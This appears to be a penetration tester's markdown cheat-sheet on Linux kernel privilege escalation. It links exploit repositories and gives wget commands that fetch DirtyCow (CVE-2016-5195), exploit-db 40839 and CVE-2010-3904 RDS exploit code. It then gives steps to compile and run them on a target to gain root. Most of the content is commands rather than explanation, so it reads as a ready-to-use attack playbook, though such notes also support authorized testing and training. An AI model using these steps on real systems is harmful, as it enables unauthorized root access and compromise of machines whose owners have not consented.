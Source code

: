 #### Manual
```
https://github.com/lucyoa/kernel-exploits
```

```bash - linux
uname -a
```

Google "Linux debian 2.6.32-5-amd64 exploit"

```bash - kali
 wget https://www.exploit-db.com/raw/40839
```

#### DirtyCow
```bash - target
gcc -pthread c0w.c -o cow
```

```bash - target
./cow
```

```bash - target
passwd
```

#### DirtyCow2
https://raw.githubusercontent.com/firefart/dirtycow/master/dirty.c






#### Automated
![[3._Automated Tools#Linux Exploit Suggester]]


#### CVE 2016-5195
```bash - kali
wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
```

(un)comment correct payload first (x86 or x64)!

```bash - kali
mousepad cowroot.c
```

#### CVE 2010-3904 RDS
Download this file:
http://web.archive.org/web/20101020044048/http://www.vsecurity.com/download/tools/linux-rds-exploit.c

Transfer to target, compile and run.
```bash - target
gcc linux-rds-exploit.c -o privesc
```

```bash - target
./privesc
```